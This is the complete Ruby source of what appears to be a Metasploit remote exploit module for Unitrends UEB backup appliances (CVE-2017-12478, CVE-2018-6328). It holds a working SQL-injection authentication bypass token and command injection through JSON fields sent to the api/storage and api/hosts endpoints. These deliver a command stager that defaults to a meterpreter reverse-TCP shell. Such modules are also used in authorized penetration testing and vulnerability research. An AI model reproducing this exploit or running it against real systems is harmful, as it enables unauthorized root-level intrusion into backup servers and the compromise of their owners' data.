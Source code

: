 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::CmdStager

      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Unitrends UEB http api remote code execution',
          'Description'    => %q{
            It was discovered that the api/storage web interface in Unitrends Backup (UB)
            before 10.0.0 has an issue in which one of its input parameters was not validated.
            A remote attacker could use this flaw to bypass authentication and execute arbitrary
            commands with root privilege on the target system.
            UEB v9 runs the api under root privileges and api/storage is vulnerable.
            UEB v10 runs the api under limited privileges and api/hosts is vulnerable.
          },
          'Author'         =>
            [
              'Cale Smith',    # @0xC413
              'Benny Husted', # @BennyHusted
              'Jared Arave',   # @iotennui
              'h00die'
            ],
          'License'        => MSF_LICENSE,
          'Platform'       => 'linux',
          'Arch' => [ARCH_X86],
          'CmdStagerFlavor' => [ 'printf' ],
          'References'     =>
            [
              ['URL', 'https://support.unitrends.com/UnitrendsBackup/s/article/ka640000000TO5PAAW/000005756'],
              ['URL', 'https://support.unitrends.com/UnitrendsBackup/s/article/000006002'],
              ['URL', 'https://nvd.nist.gov/vuln/detail/CVE-2017-12478'],
              ['URL', 'http://blog.redactedsec.net/exploits/2018/01/29/UEB9.html'],
              ['EDB', '44297'],
              ['CVE', '2017-12478'],
              ['CVE', '2018-6328']
            ],
          'Targets'        =>
            [
              [ 'UEB 9.*', { 'Privileged' => true} ],
              [ 'UEB < 10.1.0', { 'Privileged' => false} ]
            ],
          'DefaultOptions' => {
              'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp',
              'SSL' => true
            },
          'DisclosureDate'  => 'Aug 8 2017',
          'DefaultTarget'   => 0))
        register_options(
          [
            Opt::RPORT(443),
            OptBool.new('SSL', [true, 'Use SSL', true])
          ])
        deregister_options('SRVHOST', 'SRVPORT')
      end

      def auth_token
        session = "v0:b' UNION SELECT -1 -- :1:/usr/bp/logs.dir/gui_root.log:0"  #SQLi auth bypass
        Base64.strict_encode64(session) #b64 encode session token
      end

      def check
        res = send_request_cgi!({
            'method' => 'GET',
            'uri'    => '/api/systems/details',
            'ctype'  => 'application/json',
            'headers' =>
            {'AuthToken' => auth_token}
          })
        if res && res.code == 200
          print_good("Good news, looks like a vulnerable version of UEB.")
          return CheckCode::Appears
        else
          print_bad('Host does not appear to be vulnerable.')
        end
        return CheckCode::Safe
      end

      #substitue some charactes
      def filter_bad_chars(cmd)
        cmd.gsub!("\\", "\\\\\\")
        cmd.gsub!("'", '\\"')
      end

      def execute_command(cmd, opts = {})
        if target.name == 'UEB 9.*'
          #substitue the cmd into the hostname parameter
          parms = %Q|{"type":4,"name":"_Stateless","usage":"stateless","build_filesystem":1,"properties":{"username":"aaaa","password":"aaaa","hostname":"`|
          parms << filter_bad_chars(cmd)
          parms << %Q|` &","port":"2049","protocol":"nfs","share_name":"aaa"}}|
          uri = '/api/storage'
        elsif target.name == 'UEB < 10.1.0'
          parms = %Q|{"name":"ffff","ip":"10.0.0.200'\\"`0&|
          parms << filter_bad_chars(cmd)
          parms << %Q|`'"}|
          uri = '/api/hosts'
        end

        res = send_request_cgi({
          'uri' => uri,
          'method' => 'POST',
          'ctype'  => 'application/json',
          'encode_params' => false,
          'data'   => parms,
          'headers' =>
            {'AuthToken' => auth_token}
        })

        if res && res.code != 500
          fail_with(Failure::UnexpectedReply,'Unexpected response')
        end
      rescue ::Rex::ConnectionError
        fail_with(Failure::Unreachable, "#{peer} - Failed to connect to the web server")
      end

      def exploit
        print_status("#{peer} - Sending requests to UEB...")
        execute_cmdstager(:linemax => 120)
      end
    end